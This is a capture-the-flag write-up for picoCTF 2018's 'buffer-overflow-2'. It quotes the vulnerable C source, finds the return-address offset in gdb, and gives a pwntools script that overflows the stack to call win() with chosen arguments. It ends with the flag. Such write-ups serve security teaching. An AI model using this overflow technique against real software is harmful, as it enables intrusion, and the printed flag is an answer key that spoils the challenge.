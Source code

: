 # Problem
Alright, this time you'll need to control some arguments. Can you get the flag from this [program](https://2018shell1.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln)? You can find it in /problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa on the shell server. [Source](https://2018shell1.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln.c).

## Hints:
Try using gdb to print out the stack once you write to it!

## Solution:

Lets download the files:
```bash
wget https://2018shell1.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln
wget https://2018shell1.picoctf.com/static/8ec59d858594f0e03108cf12e6177682/vuln.c
```

First, we investigate the source
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

What we need to do here is to call ```win(0xDEADBEEF, 0xDEADC0DE)``` from ```vuln()``` somehow.

The call to ```gets()``` in ```vuln()``` is unsafe, there is no limit checking, so we can use a buffer overflow in order to do so.

We can override the return address and jump to win.

First we need to check the offset overriding the return address. We can use this gdbinit script
```
run < <(echo AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ0000111122223333444455556666)
```

Lets debug:
```bash
gdb -x ./gdbinit ./vuln

Stopped reason: SIGSEGV
0x32323232 in ?? ()
```

We know that ```2222``` overrides the return address.

Now lets write a simple python script:
```python
#!/usr/bin/env python

from pwn import *


debug = 0

user = ''
pw = ''

if debug:
  p = process('./vuln')
else:
  s = ssh(host = '2018shell1.picoctf.com', user=user, password=pw)
  s.set_working_directory('/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa')
  p = s.process('./vuln')

binary = ELF('./vuln')

print p.recvuntil('string:')
p.sendline('AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ00001111' + p32(binary.symbols['win']) + 'XXXX' + p32(0xDEADBEEF) + p32(0xDEADC0DE))
print p.recvall()
```

Flag: picoCTF{addr3ss3s_ar3_3asy1b78b0d8}